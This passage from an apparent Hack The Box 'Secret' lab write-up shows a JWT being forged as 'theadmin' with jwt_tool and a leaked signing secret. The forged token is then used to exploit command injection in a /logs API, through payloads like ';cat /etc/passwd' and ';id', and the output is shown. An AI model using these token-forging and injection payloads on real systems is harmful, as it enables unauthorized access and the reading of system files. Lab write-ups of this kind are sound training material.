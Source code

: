 ## Create theadmin JWT

```sh
┌──(root💀kali)-[~/htb/secret]
└─# python3 jwt_tool.py -I -S hs256 -pc 'name' -pv 'theadmin' -p 'gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE' eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTk2Y2RjZTQyNTczNjA0NWMyYjI5NTgiLCJuYW1lIjoicGVuY2VyIiwiZW1haWwiOiJwZW5jZXJAdGVzdC5jb20iLCJpYXQiOjE2MzcyNzMwOTN9.iVtsUPT-D-uHBCNnTIsRRAPyvLQSI5mIEvYqn9JJzLk

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.4                \______|             @ticarpi      

Original JWT:
jwttool_a9ca90340bdb619642f0fbd1df1e6f4e - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTk2Y2RjZTQyNTczNjA0NWMyYjI5NTgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InBlbmNlckB0ZXN0LmNvbSIsImlhdCI6MTYzNzI3MzA5M30.OBy7ffsMnK9IlG1uBm28X4aYbCMw4mgr3kZyFMXDGfE
```

## Remote Code Execution

With this new token we can use the /logs api we found earlier and authenticate as theadmin. This let's us use that unsanitised parameter we saw in the source code. Let's try and get the passwd file

```sh
┌──(root💀kali)-[~/htb/secret]
└─# curl 'http://secret.htb/api/logs?file=;cat+/etc/passwd' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTk2Y2RjZTQyNTczNjA0NWMyYjI5NTgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InBlbmNlckB0ZXN0LmNvbSIsImlhdCI6MTYzNzI3MzA5M30.OBy7ffsMnK9IlG1uBm28X4aYbCMw4mgr3kZyFMXDGfE'
"80bf34c fixed typos 🎉
0c75212 now we can view logs from server 😃
ab3e953 Added the codes
root:x:0:0:root:/root:/bin/bash
<SNIP>
dasith:x:1000:1000:dasith:/home/dasith:/bin/bash
```

It works and we see the contents of the passwd file. Of note is the user dasith. Let's see which user we are on the server:

```sh
┌──(root💀kali)-[~/htb/secret]
└─# curl 'http://secret.htb/api/logs?file=;id' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTk2Y2RjZTQyNTczNjA0NWMyYjI5NTgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InBlbmNlckB0ZXN0LmNvbSIsImlhdCI6MTYzNzI3MzA5M30.OBy7ffsMnK9IlG1uBm28X4aYbCMw4mgr3kZyFMXDGfE'
<SNIP>
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)"
```
